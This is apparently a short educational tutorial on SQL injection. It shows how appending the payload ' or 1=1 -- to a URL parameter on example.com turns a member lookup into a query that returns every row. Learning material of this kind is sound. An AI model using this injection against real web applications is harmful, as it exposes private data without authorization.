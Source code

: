 ```yaml
---
description: Modify an SQL query to return additional results.
---
```


# Retrieving hidden data

Imagine a web app that displays member info. The URL looks like this:

```url
https://example.com/members?name=John
```

We can guess the web app made an SQL query to retrieve the data from the database:

```sql
SELECT * FROM members WHERE name = 'John'
```

The query asks the database to return all details (\*) from members table where the name is John.

**What if** we modify the input?

By using "--", we can comment out the rest of the string.

In addition to that, we can write something that's always true.

`' or 1=1 --`

So the URL will look like this:

```url
https://example.com/members?name=John'+or+1=1--
```

In SQL query:

```sql
SELECT * FROM members WHERE name = 'John' OR 1=1--'
```

Since 1 will always equal 1, this query will return everything.
